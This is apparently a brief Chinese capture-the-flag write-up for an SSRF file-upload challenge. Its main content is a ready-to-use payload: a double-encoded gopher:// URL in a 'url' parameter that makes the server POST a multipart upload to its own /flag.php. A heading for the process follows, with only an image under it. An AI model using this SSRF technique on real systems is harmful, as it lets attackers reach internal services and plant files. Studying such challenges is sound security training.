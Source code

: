 # 上传文件

从做题的角度来看, 直接使用下面的Payload 就可以拿到flag

```
?url=gopher://127.0.0.1:80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%250D%250AContent-Length%253A%2520292%250D%250AContent-Type%253A%2520multipart/form-data%253B%2520boundary%253D----WebKitFormBoundary1lYApMMA3NDrr2iY%250D%250A%250D%250A------WebKitFormBoundary1lYApMMA3NDrr2iY%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522test.txt%2522%250D%250AContent-Type%253A%2520text/plain%250D%250A%250D%250ASSRF%2520Upload%250D%250A------WebKitFormBoundary1lYApMMA3NDrr2iY%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522submit%2522%250D%250A%250D%250A%25E6%258F%2590%25E4%25BA%25A4%250D%250A------WebKitFormBoundary1lYApMMA3NDrr2iY--
```

# 具体过程

![image-20230408062750474](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230408062750474.png)